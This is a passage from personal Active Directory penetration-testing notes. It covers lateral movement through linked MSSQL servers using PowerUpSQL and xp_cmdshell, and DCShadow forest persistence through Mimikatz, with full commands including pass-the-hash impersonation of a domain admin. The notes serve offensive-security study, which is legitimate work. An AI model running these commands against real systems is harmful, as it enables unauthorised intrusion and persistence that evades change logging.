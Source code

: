 - good for lateral movement
    - domain users can be mapped to database roles
- database links work across forest trusts
- if you have a database that is linked to another database, you can potentially run commands on that remote SQL server and laterally move (`Get-SQLServerLinkCrawl -Instance example-mssql -Query "exec master..xp_cmdshell 'whoami'" -QueryTarget target-mssql`)
    - this command runs the `whoami` command across the nodes
    - without the `-QueryTarget` parameter, the command will be run on every link in chain
    - target server must have `xp_cmdshell` enabled
        - can be enabled manually if `rpcout` is enabled (disabled by default) using `EXECUTE('sp_configure "xp_cmdshell",1;reconfigure;') AT "example-sql"`
    
    
    - `ft` stands for format table (makes the output look nicer)

| Command | Description |
| --- | --- |
| Get-SQLServerLink -Instance example-mssql | Find links to remote servers    |
| Get-SQLServerLinkCrawl -Instance example-mssql | Enumerate database links |
| Get-SQLInstanceDomain |  Get-SQLConnectionTestThreaded -Verbose | Check which SQL servers you can access |
| Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose   | Lists information about each SQL server |

# Forest Persistence

## DCShadow

- registers a new domain controller
    - used to push attributes (SIDHistory, SPN, etc.) specific objects without leaving logs for modified object (no 4662 event or any other change log event created)
        - this is because attribute changes from a domain controller does not create change logs
- requires DA privileges and attacker must own forest root domain

******Methodology******

Within Mimikatz, perform the following:

```powershell
# Start RPC servers with SYSTEM privileges and modify attribute (in this example we'll edit the description of the 0xd4y user)
!+
!processtoken
lsadump::dcshadow /object:0xd4y /attribute:Description /value="Subscribe to 0xd4y on YouTube"

## Push the changes
lsadump::dcshadow /push
```

- you may need to first impersonate a DA with `sekurlsa::pth /user:Administrator /domain:0xd4y_notes.local /ntlm:<DA_HASH> /impersonate`
- to push the changes, you will need to run another mimikatz instance
